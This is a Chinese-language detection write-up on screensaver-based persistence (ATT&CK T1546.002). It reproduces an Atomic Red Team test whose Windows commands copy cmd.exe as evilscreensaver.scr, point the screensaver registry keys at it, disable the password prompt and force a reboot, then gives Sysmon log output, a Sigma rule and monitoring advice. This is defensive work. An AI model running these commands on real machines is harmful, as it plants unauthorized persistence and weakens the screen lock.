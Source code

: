 # T1546-002-win-事件触发执行-屏幕保护程序

## 来自ATT&CK描述

攻击者可以通过执行由用户不活动引发的恶意内容来建立持久性。屏幕保护程序是在用户不活动的可配置时间后执行的程序，由扩展名为.scr的便携式可执行文件（PE）组成。Windows屏幕保护程序scrnsave.scr位于C:\Windows\System32\，在64位Windows系统上位于C:\Windows\sysWOW64\，与基本Windows安装中的屏幕保护程序一起。

以下屏幕保护程序设置存储在注册表 ( `HKCU\Control Panel\Desktop\`) 中，可以通过操作来实现持久性：
-   `SCRNSAVE.exe` -设置为恶意PE路径
-   `ScreenSaveActive` -设置为“1”以启用屏幕保护程序
-   `ScreenSaverIsSecure` -设置为“0”不需要密码解锁
-   `ScreenSaveTimeout` -在执行屏幕保护程序之前设置用户不活动超时

攻击者可以使用屏幕保护程序设置来保持持久性，方法是将屏幕保护程序设置为在用户不活动的特定时间范围内运行恶意软件。

## 测试案例

### 测试1 Set Arbitrary Binary as Screensaver
该测试将一个二进制文件复制到Windows System32文件夹中，并将其设置为屏幕保护程序，因此它执行后会建立持久性。需要重新启动和登录。

测试命令，用命令提示符运行，需要admin/root权限：
```
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```

input_binary：C:\Windows\System32\cmd.exe
## 检测日志

Windows Sysmon日志

## 测试复现
### 测试1 Set Arbitrary Binary as Screensaver
```
copy C:\Windows\System32\cmd.exe "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```
## 测试留痕

### 测试1 Set Arbitrary Binary as Screensaver
```
      

Process Create:

RuleName: technique_id=T1112,technique_name=Modify Registry

UtcTime: 2022-01-11 13:14:16.334

ProcessGuid: {78c84c47-82a8-61dd-5928-000000000800}

ProcessId: 5496

Image: C:\Windows\System32\reg.exe

FileVersion: 10.0.17763.1 (WinBuild.160101.0800)

Description: Registry Console Tool

Product: Microsoft® Operating System

Company: Microsoft Corporation

OriginalFileName: reg.exe

CommandLine: reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\evilscreensaver.scr" /f

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=429DF8371B437209D79DC97978C33157D1A71C4B,MD5=8A93ACAC33151793F8D52000071C0B06,SHA256=19316D4266D0B776D9B2A05D5903D8CBC8F0EA1520E9C2A7E6D5960B6FA4DCAF,IMPHASH=BE482BE427FE212CFEF2CDA0E61F19AC

ParentProcessGuid: {78c84c47-7dc0-61dd-a227-000000000800}

ParentProcessId: 5028

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### Sigma规则
```
title: 更改屏幕保护程序实现持久化
status: experimental
references:
    - https://github.com/redcanaryco/atomic-red-team/blob/910a2a764a66b0905065d8bdedb04b37049a85db/atomics/T1546.002/T1546.007.md
date: 2022-01-11
tags:
    - attack.t1546-002
author: 12306Br0
logsource:
    product: windows
    service: sysmon
detection:
    selection_registry:
        EventID: 1 #进程创建
        CommandLine:'HKEY_CURRENT_USER\Control Panel\Desktop'
    condition: selection
level: medium
```

或许，通过Windows安全日志对注册表修改行为进行检测，效果会更好！
### 建议

监控.scr文件的进程执行和命令行参数。监控注册表中可能与典型用户行为不相关的屏幕保护程序配置更改。

Sysinternals Autoruns等工具可用于检测注册表中屏幕保护程序二进制路径的更改。可疑路径和PE文件可能表明网络中的合法屏幕保护程序存在异常值，应进行调查。

## 参考推荐

MITRE-ATT&CK-T1546-002

<https://attack.mitre.org/techniques/T1546/002>

Atomic-red-team-T1546-002

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.002/T1546.002.md>
